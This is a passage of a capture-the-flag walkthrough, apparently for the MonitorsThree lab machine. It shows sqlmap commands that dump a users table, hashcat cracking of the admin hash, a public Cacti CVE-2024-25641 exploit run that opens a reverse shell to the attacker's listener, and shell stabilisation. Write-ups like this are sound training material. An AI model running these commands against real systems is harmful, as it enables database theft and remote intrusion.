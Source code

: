 ```
sqlmap -r cacti.txt –dbs --batch

sqlmap -r cacti.txt -D monitorsthree_db –tables --batch

sqlmap -r cacti.txt -D monitorsthree_db -T users --dump --batch

sqlmap -r cacti.txt -D monitorsthree_db -T users --dump --where="username='admin'" --batch

sqlmap -r cacti.txt -D monitorsthree_db -T users --dump -C username,password --where="username='admin'" --batch
```

The workflow above begins by using sqlmap to identify the available databases in the vulnerable application. Once the ```monitorsthree_db``` database is found, the next step is listing its tables. After discovering the users table, I proceed to dump its contents, narrowing it down by specifically targeting the admin username. Finally, I extract the admin's hashed password by dumping only the username and password columns where the username equals ```'admin'```.

Also, here is useful cheatsheet describing all the options withing sqlmap:

- [SQL Injection with Sqlmap](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-with-sqlmap/)

After that I was finally ready to crack the discovered hash:

```
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
```

This revealed the following credentials:

```
admin:greencacti2001
```

The next step was easy, involving the use of pre-made exploit that finally gave me initial access into the machine:

- [CVE-2024-25641-RCE-Automated-Exploit-Cacti-1.2.26](https://github.com/thisisveryfunny/CVE-2024-25641-RCE-Automated-Exploit-Cacti-1.2.26)

This is how I executed it:

```
python3 exploit.py -L 10.10.14.9 -lp 4444 -wp 8000 -url http://cacti.monitorsthree.htb -u admin -p greencacti2001
```

Next, I made my shell more stable using the standard procedure:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```

Of course, my shell was running as "www-data" so searching for some valid users seemed like a smart move:
